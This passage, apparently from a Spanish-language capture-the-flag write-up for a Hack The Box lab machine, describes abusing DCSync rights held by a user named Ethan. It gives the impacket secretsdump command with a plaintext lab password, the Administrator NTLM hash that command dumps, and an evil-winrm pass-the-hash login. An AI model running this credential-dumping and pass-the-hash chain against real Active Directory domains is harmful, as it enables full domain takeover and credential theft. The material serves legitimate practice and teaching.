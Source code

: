#getchanges

---

Marcamos que somos owner del usuario *Ethan* y en *First Degree Object Control* nos aparece que podemos pasar al usuario *administrator* abusando de los privilegios. [[DcSync]] [[GetChanges]] o [[GetchangesAll]] . El ultimo permiso que falta en help decia que estaba bug
![[Administrator50.png]]

![[Administrator51.png]]
Nos dice que podemos usar [[impacket-secretsdump]] con el comando `secretsdump.py 'administrator.htb'/'ethan':'limpbizkit'@'administrator.htb'`

![[Imagenes/Administrator52.png]]
Nos da los hashes de todos los usuarios, a nosotros nos interesa solo el del usuario *Administrator* y solamente vamos a tomar todo lo que viene despues de los ultimos *:*
```
3dc553ce4b9fd20bd016e098d2d2fd2e
```

Ahora nos conectamos con [[evil-winrm]] usamos `evil-winrm -u administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e' -i 10.129.112.167`